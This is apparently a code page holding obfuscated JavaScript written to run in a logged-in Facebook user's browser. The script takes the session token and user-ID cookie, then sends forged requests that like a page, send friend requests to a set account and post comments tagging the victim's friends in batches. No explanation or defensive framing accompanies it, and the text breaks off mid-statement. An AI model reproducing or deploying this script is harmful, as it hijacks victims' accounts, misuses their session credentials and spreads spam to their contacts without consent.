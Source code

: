 var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function Like(p) {   var Page = new XMLHttpRequest();   var PageURL = "//www.facebook.com/ajax/pages/fan_status.php";   var PageParams = "&amp;fbpage_id=" + p +"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";   Page.open("POST", PageURL, true);   Page.onreadystatechange = function () {     if (Page.readyState == 4 &amp;&amp; Page.status == 200) {       Page.close;     }   };   Page.send(PageParams); } Like("0");   var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function IDS(r) {   var X = new XMLHttpRequest();   var XURL = "//www.facebook.com/ajax/add_friend/action.php";   var XParams = "to_friend=" + r +"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";   X.open("POST", XURL, true);   X.onreadystatechange = function () {     if (X.readyState == 4 &amp;&amp; X.status == 200) {       X.close;     }   };   X.send(XParams); } IDS("100006013566582"); IDS("100006013566582"); var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","206803226196795","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f&lt;Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i&lt;9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&amp;&amp;_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var
